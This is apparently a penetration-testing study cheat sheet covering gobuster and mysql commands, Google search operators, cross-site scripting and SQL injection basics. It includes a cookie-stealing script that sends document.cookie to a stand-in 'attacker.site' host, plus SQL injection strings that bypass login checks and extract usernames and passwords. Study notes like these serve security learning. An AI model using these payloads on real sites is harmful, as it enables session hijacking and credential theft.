 		gobuster:
			gobuster dir -u <URL> -w <wordlist> -U (*AUTH-USER) -P (*AUTH-PASS) -e(use full address)

		mysql:
			mysql -h <IP> --user='' --password=''
	
	Google Hacking:
		site: - include only result from hostname
		intitle: - filter according to title
		inurl: similar to intitle but works on the URL
		filetype: filter for extension
		AND/&,OR/| - logical operators
		'-' - filter out a keyword
	
	Cross-Site Scripting(XSS):
		unfiltered user-input to build the output content
		Reflected:
			Payload is carried INSIDE THE REQUEST that the browser sends.
			Activated by clicking on a sent link
			ex. http://victim.com/search.php?find=<payload>
		Persistent:
			Payload is stored in the website's page
			Activated by getting the page
			ex. Form submit in bulletin boards
		Cookie Stealing:
			<script> var i = new Image(); i.src="http://attacker.site/get.php?cookie="+escape(document.cookie)</script>
	
	SQL Injection(SQLi):
		SQL BASICS:
			SELECT:: SELECT <column> FROM <table> WHERE <condition>;
			UNION:: <SELECT STATEMENT> UNION <other SELECT STATEMENT>;
			COMMENTS:: SELECT field FROM table; # comment
					   SELECT field	FROM table; -- also a comment
			PHP:
				$dbhostname = '1.2.3.4';
				$dbuser = 'user';
				$dbpassword = 'pass';
				$dbname = 'database';

				$connection = mysqli_connect($dbhostname, $dbuser, $dbpassword, $dbname);
				$query = "SELECT Name, Description FROM Products WHERE ID='3' UNION SELECT Username, Password FROM Accounts;";

				$results = mysqli_query($connection, $query);
				display_results($results);

			Vulnerable Dynamic Query ex. :: $id = $_GET['id'];
				looks like:
					SELECT name, description FROM products WHERE ID='$id';
				vuln:
					' OR 'a'='a
					SELECT name, description FROM products WHERE ID='' OR 'a'='a;
					(SECOND OR WILL MATCH AND RUN)
				other ex:
					' UNION SELECT Username, Password FROM Accounts WHERE 'a'='a;
					looks like:
						SELECT name, description FROM products WHERE ID='' UNION SELECT Username, Password FROM Accounts WHERE 'a'='a
